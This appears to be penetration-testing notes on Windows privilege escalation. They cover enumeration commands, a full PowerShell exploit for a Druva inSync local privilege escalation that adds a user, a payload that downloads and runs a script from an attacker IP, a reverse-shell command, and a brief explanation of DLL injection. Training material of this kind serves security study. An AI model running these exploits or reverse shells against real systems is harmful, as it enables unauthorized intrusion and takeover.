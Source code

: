#### Enumerating Installed Programs
```cmd-session
wmic product get name
```
We check which applications stand out and are not part of the standard windows suite.

#### Enumerating Local Ports
```cmd-session
netstat -ano | findstr PORT
```
From this we can then enumerate the process ID
#### Enumerating Process ID
```powershell-session
get-process -Id PID
```

### Druva inSync Windows Client Local Priv Escalation
```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```

Here we can change the `$cmd` variable to our desired command
We can use `Invoke-PowerShellTcp.ps1` 
```shell-session
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.3 -Port 9443
```
```powershell
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.3:8080/shell.ps1')"
```

## DLL Injection
`DLL injection` is a method that involves inserting a piece of code, structured as a Dynamic Link Library (DLL), into a running process.
`DLL injection` finds legitimate applications in various areas. For instance, software developers leverage this technology for `hot patching`, a method that enables the amendment or updating of code seamlessly, without the need to restart the ongoing process immediately.
There are several different methods for actually executing a DLL injection.
### LoadLibrary
`LoadLibrary` is a widely utilized method for DLL injection, employing the `LoadLibrary` API to load the DLL into the target process's address space.
The `LoadLibrary` API is a function provided by the Windows operating system that loads a Dynamic Link Library (DLL) into the current process’s memory and returns a handle that can be used to get the addresses of functions within the DLL.